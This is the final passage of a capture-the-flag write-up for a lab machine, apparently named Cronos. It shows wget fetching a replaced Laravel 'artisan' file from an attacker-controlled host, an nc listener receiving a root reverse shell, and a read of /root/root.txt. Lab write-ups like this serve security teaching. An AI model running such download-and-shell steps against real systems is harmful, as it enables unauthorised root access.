 ```php
*/

$kernel->terminate($input, $status);

exit($status);
 
```

Downloading the file.

```

www-data@cronos:/var/www/laravel$ wget http://10.10.14.3:8000/artisan
wget http://10.10.14.3:8000/artisan
--2021-03-04 18:58:20--  http://10.10.14.3:8000/artisan
Connecting to 10.10.14.3:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1716 (1.7K) [application/octet-stream]
Saving to: 'artisan'

     0K .                                                     100%  125M=0s

2021-03-04 18:58:21 (125 MB/s) - 'artisan' saved [1716/1716]



```

Got the root shell!

```bash

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4242
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.13] 56398
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/root.txt
```
 And that is how I solved Cronos! 
